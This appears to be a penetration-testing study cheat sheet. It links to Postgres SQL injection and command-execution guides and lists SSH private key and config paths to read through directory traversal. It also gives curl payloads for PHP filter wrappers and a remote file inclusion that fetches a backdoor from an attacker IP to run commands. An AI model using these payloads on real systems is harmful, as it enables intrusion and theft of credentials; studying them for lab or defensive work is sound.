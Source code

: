 #### Postgres
##### sqli

https://book.hacktricks.xyz/pentesting-web/sql-injection

##### general commands

https://hasura.io/blog/top-psql-commands-and-flags-you-need-to-know-postgresql

##### RCE

https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5

https://medium.com/r3d-buck3t/command-execution-with-postgresql-copy-command-a79aef9c2767

### Directory Traversal

- use encoding
- try in curl or burp
- use exploit payload
- search ssh keys

```
/.ssh/id_rsa
/.ssh/id_ecdsa
/.ssh/identity.pub
/.ssh/identity
/.ssh/id_rsa.pub
/.ssh/id_dsa.pub
/.ssh/id_dsa
/etc/ssh/ssh_config
/etc/ssh/sshd_config
/etc/ssh/ssh_host_dsa_key.pub
/etc/ssh/ssh_host_dsa_key
/etc/ssh/ssh_host_rsa_key.pub
/etc/ssh/ssh_host_rsa_key
/etc/ssh/ssh_host_key.pub
/etc/ssh/ssh_host_key
```

### File Inclusion Vulnerabilities

upload file or add code to a file and then include it and execute
encode if needed

#### PHP Wrappers
 may hide part of the source code, reveal this code can help us find credentials or understand 
the logic of the code

```
for example: 

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/resource=admin.php

curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php

curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"

```
